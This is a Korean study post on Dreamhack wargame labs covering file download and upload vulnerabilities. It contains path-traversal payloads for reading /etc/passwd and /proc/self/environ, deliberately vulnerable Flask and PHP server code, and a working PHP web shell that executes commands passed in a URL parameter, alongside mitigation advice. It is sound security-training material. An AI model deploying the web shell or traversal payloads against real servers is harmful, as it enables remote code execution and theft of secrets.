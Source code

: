 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (2)"
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (2)

-  [x] File Download Vulnerability 실습
-  [x] 함께 실습 : image-storage
-  [x] 혼자 실습 : file-download-1

## File Download Vulnerability
파일 다운로드 취약점은 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생한다. 웹 서비스는 이용자가 파일을 다운받거나, 이미지를 불러올 때 특정 디렉토리에 있는 파일만 접근하도록 해야하는데, Path Traversal을 이용한 파일 다운로드 취약점은 파일 이름을 직접 입력받아 임의 디렉토리에 있는 파일을 다운로드 받을 수 있는 취약점을 뜻한다. <br>

|파일 다운로드 취약점이 자주 발생하는 URL 패턴|
|:------|
|https://vulnerable-web.dreamhack.io/download/?filename=notes.txt|
|https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd|
|https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png|


### File Download Vulnerability 실습

아래는 실습 서버 코드이다. 환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득해보자

```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```

프로세스의 환경변수는 /proc/self/environ에서 확인할 수 있으며, 이용자가 프로세스 호출 전 환경변수를 bash의 명령어로 설정했다면, .bash_history에서도 이를 알 수 있다. 아래는 proc/self/environ에서 Secret 값을 읽은 사진이다

<img src = "/images/webbackground/14.png"><br>


### File Vulnerability 방지하기
업로드 취약점을 막으려면 개발자는 업로드 디렉토리를 웹 서버에서 직접 접근할 수 없도록 하거나, 업로드 디렉토리에서 CGI가 실행되지 않도록 해야하며, 업로드 된 파일 이름을 그대로 사용하지 않고 basepath와 같은 함수를 통해 파일 이름을 검증한 후 사용해야 한다. 또한, 허용할 확장자를 명시하여 그 외 확장자는 업로드될 수 없도록 해야한다.
<br><Br>
다운로드 취약점을 막으려면 요청된 파일 이름을 basepath와 같은 함수를 통해 검증하거나, 파일 이름과 1:1 맵핑되는 키를 만들어 이용자로부터 파일 이름이 아닌 키를 요청하도록 해야한다

## 함께 실습 : image-storage

파일 업로드 취약점을 이용해 flag.txt에 있는 Flag 획득하기

### 웹 서비스 분석
##### 인덱스 페이지

list.php와 upload.php로 이동하는 메뉴 출력

```php
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

##### 파일 목록 리스팅

list.php는 $directory의 파일 중 ., .., index.html을 제외하고 나열한다

```php
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

##### 파일 업로드

upload.php는 이용자가 업로드한 파일을 uploads 폴더에 복사하며 이용자는 http://host1.dreamhack.games:[PORT]/uploads/[FILENAME] 를 통해 접근할 수 있다. 같은 이름의 파일이 존재한다면 already exists라는 메세지를 반환한다. 업로드할 파일에 대한 어떠한 검사도 진행하지 않으므로, 웹 셸 업로드 공격에 취약하다. 

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

### 익스플로잇

아래와 같은 php 웹셸 작성 후 업로드

```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

업로드가 끝나면, 저장된 위치를 다음과 같이 보여준다

<img src = "/images/wargame/12.png"><br>

위 경로로 이동하여 업로드 된 파일을 연다

<img src = "/images/wargame/13.png"><br>

시스템 명령어 cat /flag.txt 를 통해 flag.txt에 저장된 글을 읽어온다

<img src = "/images/wargame/14.png"><br>

##### 위와 같은 공격으로부터 서비스를 보호하려면 ?

파일 업로드와 관련된 코드에 여러 검사 로직을 추가해야한다. 이 중 대표적인 방법은 파일의 확장자를 제한하는 것이다. 웹 리소스는 크게 정적 리소스와 동적 리소스로 분류할 수 있으며, 정적 리소스는 이미지, 비디오와 같이 서버에서 실행되지 않는 리소스, 동적 리소스는 php, jsp와 같이 서버에서 실행되는 것들을 가리킨다. 동적 리소스의 확장자를 제한하면 파일 업로드 취약점을 통한 RCE(Remote Code Execution : 원격 코드 실행) 공격으로부터 서버를 보호할 수 있다. <br>

또 다른 방법은 AWS, Azure, GCP 등의 정적 스토리지를 이용하는 것이다. 이는 서버의 파일 시스템을 이용하지 않기 때문에 파일 업로드 취약점이 웹 서버 공격으로 이어지는 것을 방지할 수 있다.

## 혼자 실습 : file-download-1

파일 다운로드 취약점이 존재하는 웹 서비스로, flag.py를 다운받으면 플래그를 획득할 수 있다.

```python
@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True


    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```
<br>
위와 같은 read 페이지의 코드를 살펴보면, name 파라미터 값으로 파일 이름을 확인하는 것을 알 수 있다. 이를 확실히 확인하기 위해, 임의의 글을 업로드 후 접근해보았다. 아래와 같이 temp라는 이름의 파일에 접근할 때에는 **호스트:포트/read?name=temp** 의 주소를 가지는 것을 볼 수 있다.

<img src = "/images/wargame/16.png"><br>

이를 바탕으로 name 파라미터의 값을 ../flag.py로 입력하여 주소를 이동하면 다음과 같이 flag에 대한 정보를 얻을 수 있다

<img src = "/images/wargame/15.png"><br>